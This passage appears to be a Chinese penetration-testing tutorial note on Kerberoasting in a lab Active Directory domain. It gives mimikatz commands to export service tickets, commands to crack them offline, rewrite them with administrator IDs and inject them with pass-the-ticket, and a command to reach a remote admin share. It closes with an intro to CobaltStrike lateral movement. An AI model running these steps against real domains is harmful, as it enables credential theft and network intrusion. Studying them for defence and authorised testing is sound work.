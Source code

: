  ![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/69-7.png)



### 导出票据

```shell
# mimikatz
.\mimikatz.exe  
kerberos::list /export
```

 ![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/69-8.png)

### 破解票据

```
# 破解工具tgsrepcrack.py python3环境运行
python tgsrepcrack.py  passwd.txt xxxx.kirbi
python3 .\tgsrepcrack.py .\password.txt .\1-40a00000-jerry@MSSQLSvc~Srv-DB-0day.0day.org~1433-0DAY.ORG.kirbi
```

没有破解出来，可能是我的字典有问题！

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/69-9.png)

### 重写票据

```shell
python kerberoast.py -p Password123 -r xxxx.kirbi -w PENTESTLAB.kirbi -u 500
python kerberoast.py -p Password123 -r xxxx.kirbi -w PENTESTLAB.kirbi -g 512
# 将生成的票据注入内存
mimikatz.exe kerberos::ptt xxxx.kirbi  
```

###  利用

```shell
dir //xxx.xxx.xxx.xxx /c$
```



## 域横向移动测试流程一把梭哈-CobaltStrike初体验

CobaltStrike4.0用户手册：https://pan.baidu.com/s/15DCt2Rzg5cZjXnEuUTgQ9Q 提取码: taqu

CS神器大概流程：

启动—配置—监听—执行—上线—提权—信息收集(网络,凭证,定位等)—渗透

1.关于启动及配置讲解
2.关于提权及插件加载
3.关于信息收集命令讲解
4.关于视图自动化功能讲解
